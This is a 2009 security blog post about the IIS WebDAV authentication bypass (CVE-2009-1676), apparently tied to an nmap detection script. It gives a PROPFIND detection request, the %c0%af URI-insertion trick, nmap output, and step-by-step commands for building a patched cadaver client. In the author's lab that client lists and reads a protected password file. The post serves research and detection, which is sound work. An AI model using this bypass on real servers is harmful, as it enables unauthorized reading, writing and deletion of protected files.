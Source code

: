 ```yaml
---
id: 285
title: WebDAV Detection, Vulnerability Checking and Exploitation
date: '2009-05-20T18:10:43-05:00'
author: Andrew
layout: post
guid: http://www.skullsecurity.org/blog/?p=285
permalink: "/2009/webdav-detection-vulnerability-checking-and-exploitation"
categories:
- hacking
- tools
comments_id: '109638334697498621'

---
```


Ahoy! My name is Andrew and I've been playing with the recent IIS WebDAV authentication bypass vulnerability (<a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1676">CVE-2009-1676</a>) and helping Ron with writing the nmap detection script (http-iis-webdav-vuln.nse) and testing it in the lab. Ron is in a meeting today so I thought I'd jump in where he left off and post a bit about how to detect if WebDAV is enabled and how to actually exploit a folder once you've determined it is vulnerable.

<!--more-->

The first thing one should know when playing with this vulnerability is that the IIS server is not exploitable if the root folder is protected. Also if the root folder is protected, there is no way to determine if WebDAV is even enabled. That being said, if the root folder is _not_ protected then it's time to break out the funky cold medina and have some fun.

<h2>Detecting if WebDAV is enabled</h2>

Tested working on
 * IIS 6.0/Windows 2003 Enterprise SP2
 * IIS 5.1/Windows XP Pro SP2
 * IIS 5.0/Windows 2000 SP4
	
On IIS 6.0, WebDAV is disabled by default. On IIS 5.0 and 5.1, WebDAV is enabled by default and you must edit the registry to disable it.

My method of detection simply involves running a PROPFIND request on the server. This is the same basic PROPFIND request we used in the http-iis-webdav-vuln.nse script:

<pre>
PROPFIND / HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/xml
Content-Length: 298

&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
&lt;propfind xmlns=&quot;DAV:&quot;&gt;
&lt;prop&gt;
&lt;getcontentlength xmlns=&quot;DAV:&quot;/&gt;
&lt;getlastmodified xmlns=&quot;DAV:&quot;/&gt;
&lt;executable xmlns=&quot;http://apache.org/dav/props/&quot;/&gt;
&lt;resourcetype xmlns=&quot;DAV:&quot;/&gt;
&lt;checked-in xmlns=&quot;DAV:&quot;/&gt;
&lt;checked-out xmlns=&quot;DAV:&quot;/&gt;
&lt;/prop&gt;
&lt;/propfind&gt;
</pre>

When WebDAV is enabled, it should return "HTTP/1.1 207 Multi-Status".

When WebDAV has been disabled, it should return "HTTP/1.1 501 Not Supported".

This is the method I've implemented in the http-iis-webdav-vuln.nse script. It works great in the lab on IIS servers. If we get back anything other than a 207 or 501 then we jump ship saying the web server is not supported. An Ubuntu server running Apache returns a 405 Method Not Allowed for instance.
	
<h2>Checking if a server is vulnerable</h2>

Tested working on
 * IIS 6.0/Windows 2003 Enterprise SP2
 * IIS 5.1/Windows XP Pro SP2

Tested not working on
 * IIS 5.0/Windows 2000 SP4

The original script only used one type of check; it would first find a protected folder (/secret/) and then try inserting the %c0%af character after the first /. It would turn /secret/ into /%c0%afsecret/.

This worked fine on IIS 6.0 but did not work at all on IIS 5.0/5.1. After playing with it some more today, we managed to get it working on IIS 5.1. The trick with 5.1 is that the %c0%af character can not be right after the / but must be somewhere in the middle of the folder name. This also works on IIS 6.0. I modified the script so that it uses the 5.1/6.0 check, turning /secret/ into /s%c0%afecret/.
	
<h2>Finding a vulnerable server</h2>

Tested working on
 * IIS 6.0/Windows 2003 Enterprise SP2
 * IIS 5.1/Windows XP Pro SP2

Tested not working on
 * IIS 5.0/Windows 2000 SP4
	
Now for the fun part. If you havent turned on some funky cold medina yet, get to it because we're almost done!

First thing we need to do is find a vulnerable server. I just happen to know of a Windows 2003 box in my lab running IIS 6.0 that is vulnerable (fully patched up to today btw). Lets see how an nmap scan of this box with the updated script works out:

<pre>
> ./nmap -T4 -p80 --script=http-iis-webdav-vuln xxx.xxx.xxx.xxx

Starting Nmap 4.85BETA9 ( http://nmap.org ) at 2009-05-20 14:29 CDT
Interesting ports on xxx.xxx.xxx.xxx:
PORT   STATE SERVICE
80/tcp open  http
|_ http-iis-webdav-vuln: WebDAV is ENABLED. Vulnerable folders discovered: /private, /secret, /webdav

Nmap done: 1 IP address (1 host up) scanned in 21.41 seconds
</pre>

Interesting! So now we know the server has WebDAV enabled and that there are three vulnerable folders.

<h2>Exploiting it!</h2>

Now we could do everything by telnet-ing over port 80, but that's not much fun (believe me, it's very tedious!) so I went looking for a WebDAV client. I stumbled upon a FOSS one called <a href="http://www.webdav.org/cadaver/">cadaver</a>, and based purely on the name I grabbed it. Now cadaver itself is a great little command line WebDAV client but I quickly realized it has a bunch of problems that won't let us do what we wanted. The nice thing about FOSS is that it's open, so we grabbed the <a href="http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz">cadaver-0.23.2 source</a> and after hacking away at it for awhile, we came up with <a href="/blogdata/cadaver-0.23.2-h4x.patch">a little patch</a> that makes it quite easy to exploit a server. Check <a href="/blogdata/cadaver-0.23.2-h4x.patch">the patch itself</a> for the gritty details but basically it does the following:

1) Replace any "Depth: 0" header with "Depth: 1" (otherwise ls won't work)
2) Append the header "Translate: f" to every request (otherwise get and probably others won't work)
3) Insert the characters "%c0%af" into any uri request longer than 1 character.

So, grab the <a href="/blogdata/cadaver-0.23.2-h4x.patch">cadaver-0.23.2-h4x.patch</a> and apply it to the <a href="http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz">cadaver-0.23.2 source</a> from the <a href="http://www.webdav.org/cadaver/">cadaver website</a>. Here's the commands:

<pre>
> mkdir cadaver-h4x
> cd cadaver-h4x
> wget /blogdata/cadaver-0.23.2-h4x.patch
--snip--
> wget http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz
--snip--
> tar xzvf cadaver-0.23.2.tar.gz
--snip--
> cd cadaver-0.23.2/
> patch -p1 < ../cadaver-0.23.2-h4x.patch
patching file lib/neon/ne_basic.c
patching file lib/neon/ne_request.c
patching file lib/neon/ne_uri.c
> ./configure
--snip--
> make
--snip--
</pre>

Now we should have a patched, compiled version of cadaver, so start it up with the server that was identified as having a vulnerable folder earlier:

<pre>
> ./cadaver xxx.xxx.xxx.xxx
</pre>

This should drop you to a "dav:/>" prompt. Now just cd into the vulnerable folder and check out what's there:

<pre>
dav:/> cd secret
dav:/secret/> ls
Listing collection `/secret/': succeeded.
        password.txt                           7  May 19 10:40
dav:/secret/> cat password.txt
Displaying `/secret/password.txt':
ron$pr0ns
dav:/secret/>
</pre>

And there you have it!

Here's a list of commands that I've tested that work with the patched cadaver on a vulnerable folder:
 * CD
 * LS
 * MOVE
 * PUT
 * GET
 * CAT
 * DELETE

Oddly enough, the <b>COPY</b> command does <b>NOT</b> work. We didn't have time to investigate why, but the functionality can be duplicated by a get/local rename/put.

Also, this patched cadaver will not work for browsing regular WebDAV folders (non-vulnerable), so don't try.

If anyone has been able to successfully exploit this on IIS 5.0 (Windows 2000), please contact me, we've been trying and can't get it to work in the lab here.

Comments are welcome, you can also contact me by e-mail: andrew at andreworr dot ca

